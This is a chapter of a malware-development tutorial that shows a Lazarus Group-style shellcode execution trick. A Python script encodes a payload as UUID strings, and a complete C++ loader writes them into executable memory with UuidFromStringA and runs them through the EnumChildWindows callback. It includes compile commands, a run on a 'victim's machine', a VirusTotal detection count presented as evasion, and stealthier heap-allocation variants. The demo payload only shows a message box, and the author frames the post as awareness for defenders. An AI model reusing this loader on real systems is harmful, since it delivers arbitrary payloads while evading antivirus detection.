


\newpage
\subsection{35. malware development tricks. run shellcode like a Lazarus Group. C++ example.}

﷽

{width="80%"}    

This article is the result of my own research into another interesting trick: run payload via `UuidFromStringA` and for example `EnumChildWindows`.    

### UuidFromStringA

This function converts a string to UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```
Without using standard functions like `memcpy` or `WriteProcessMemory`, this function can be used to decode data as well as write it to memory.     

The shellcode execution technique is comprised of the subsequent steps:

- Allocate memory via `VirtualAlloc`    
- Use `UuidFromStringA` to convert UUID strings their binary format and store in memory    
- Use `EnumChildWindows` (or `EnumDesktopsA` or another candidate) to execute the payload previously loaded into memory      

### practical example

Let's go to look at a practical example. The trick is pretty simple, similar to [previous](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) tricks, but with some changes specific for Lazarus Group.     

First of all, we need script to convert our desired payload to UUID valid strings. Something like this (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # read in 16 bytes from our input payload
    chunk = f.read(16)
    while chunk:
        # if the chunk is less than 16 bytes then we pad the difference (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

As usually, I will use my `meow-meow` messagebox payload: `meow.bin`.

Run:

```bash
python3 payload_uuid.py -p meow.bin
```
{width="80%"}    

Since we already have our payload in UUID format, we are able to construct our proof-of-concept code to test the following:     

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Pay attention to the function `UuidFromStringA`. As I wrote earlier, invoking this API with a memory pointer instead of a UUID pointer will result in the binary representation of the given UUID being stored in memory.     

By chaining many API requests and giving properly designed UUIDs, it is possible to load the necessary content (payload) into the chosen memory region.   

And then, as a pointer to the callback function in `EnumChildWindows` we specify this memory region:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

or another function `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

{width="80%"}    

and run in our victim's machine:    

```powershell
.\hack.exe
```

{width="80%"}    

To make sure that our payload was really launched, you can slightly change a piece of code:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Then compile again:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

{width="80%"}    

and run again:   

```powershell
.\hack.exe
```

{width="80%"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

{width="80%"}    

**So, 6 of 68 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

There is a caveat. Lazarus Group uses functions `HeapCreate` and `HeapAlloc` instead:    

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` is a frequently used API call for allocating heap memory.    
This API, as far as I can tell, allows you to allocate specified amounts of memory on the heap, as opposed to the memory blocks obtained using the `VirtualAlloc` API.
However, according to the documentation, `HeapAlloc` can still call `VirtualAlloc` if necessary.    

It also has the advantage that this API is not so suspicious.    

Also Lazarus Group uses function `EnumSystemLocalesA` for execute payload.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
